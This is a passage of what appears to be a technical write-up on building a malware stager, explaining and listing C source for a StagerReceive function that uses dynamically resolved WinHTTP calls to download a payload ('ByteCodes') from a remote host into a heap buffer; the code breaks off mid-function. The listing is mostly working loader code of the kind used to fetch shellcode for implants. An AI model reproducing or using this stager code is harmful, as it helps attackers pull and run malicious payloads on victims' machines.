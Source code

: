 Next, the size of the received data is queried using WinHttpQueryHeaders, and a buffer is allocated to store this data.

Finally, the data is read from the server in a loop using WinHttpReadData, and the total size of the read data is verified. The read data is stored in the previously allocated temporary buffer.

The function ends by releasing the handles used and assigning the received data and its size to the pointers passed as parameters.

```c
void StagerReceive(
    _In_  INSTANCE pInstance, 
    _In_  LPWSTR Host, 
    _In_  int Port, 
    _In_  LPWSTR Path,
    _Out_ PBYTE *ByteCodes, 
    _Out_ DWORD *ByteSize
) {
    HINTERNET hSession = NULL, hConnect = NULL, hRequest = NULL;
    WCHAR wMethodRequest[] = L"GET";
    
    BOOL  bResults      = FALSE;
    DWORD dwSize       = 0;
    DWORD dwDownloaded = 0;
    BYTE* pTempBuffer  = NULL;

    PVOID Heap = NtCurrentTeb()->ProcessEnvironmentBlock->ProcessHeap;

    hSession = pInstance.Api.pWinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    if (!hSession) {
        goto END;
    }

    hConnect = pInstance.Api.pWinHttpConnect(hSession, Host, Port, 0);
    if (!hConnect) {
        goto END;
    }

    hRequest = pInstance.Api.pWinHttpOpenRequest(hConnect, wMethodRequest, Path, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
    if (!hRequest) {
        goto END;
    }

    bResults = pInstance.Api.pWinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    if (!bResults) {
        goto END;
    }

    bResults = pInstance.Api.pWinHttpReceiveResponse(hRequest, NULL);
    if (!bResults) {
        goto END;
    }

    DWORD dwContentLength = 0;
    DWORD dwSizeSize = sizeof(DWORD);
    bResults = pInstance.Api.pWinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, NULL, &dwContentLength, &dwSizeSize, NULL);
    if (!bResults) {
        goto END;
    }

    pTempBuffer = (BYTE*)pInstance.Api.pRtlAllocateHeap(Heap, 0, dwContentLength);
```